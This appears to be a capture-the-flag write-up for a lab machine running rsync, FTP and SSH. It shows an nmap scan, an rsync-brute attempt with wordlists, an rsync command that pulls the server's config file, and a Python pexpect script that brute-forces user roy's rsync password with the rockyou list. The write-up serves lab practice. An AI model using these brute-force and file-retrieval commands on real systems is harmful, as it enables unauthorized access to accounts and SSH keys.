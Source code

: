 ```bash
root@gr4n173:~$nmap -sV -sC -6 dead:beef::250:56ff:febd:a9a4 -p 1-10000
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-16 22:23 +0545
Nmap scan report for dead:beef::250:56ff:febd:a9a4
Host is up (0.28s latency).
Not shown: 9996 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     Pure-FTPd
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 2d:82:60:c1:8c:8d:39:d2:fc:8b:99:5c:a2:47:f0:b0 (RSA)
|   256 1f:1b:0e:9a:91:b1:10:5f:75:20:9b:a0:8e:fd:e4:c1 (ECDSA)
|_  256 b5:0c:a1:2c:1c:71:dd:88:a4:28:e0:89:c9:a3:a0:ab (ED25519)
80/tcp   open  http    nginx
|_http-title: Ze::a Share
8730/tcp open  rsync   (protocol version 31)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| address-info: 
|   IPv6 EUI-64: 
|     MAC address: 
|       address: 00:50:56:bd:a9:a4
|_      manuf: VMware

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 320.92 seconds
```
## Rsync-> authorized_keys-> User.txt

I googled and read everything regarding the service rsync and made some script with nmap as 

```bash
root@gr4n173:~$ nmap -sV -6 --script rsync-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 873 dead:beef::250:56ff:febd:a9a4
```
but this didn't work though so I searched other way to get remote rsync to the server and finally this worked for me.

```bash
 root@gr4n173:~$rsync -av rsync://[dead:beef::250:56ff:febd:a9a4]:8730/etc/rsyncd.conf  /tmp/rsyncd.conf 
```

### Script in Python

From here I got username `roy` now, I had to crack password of user roy. For that, I had wrote an script in python using pexpect to sending and receiving the files over socket. You can download script from [here](exploit.py)

```python
#!/bin/python3

import pexpect
p=open('/usr/share/wordlists/rockyou.txt','r')
for x in p:

    login = pexpect.spawn('rsync -6 -rdt rsync://roy@[dead:beef::250:56ff:febd:a9a4]:8730/home_roy/.ssh ssh')
    login.expect('Password:')
    login.sendline(x)
    if "auth failed on module" not in login.read():
       break
    else:
       print(x)
       
```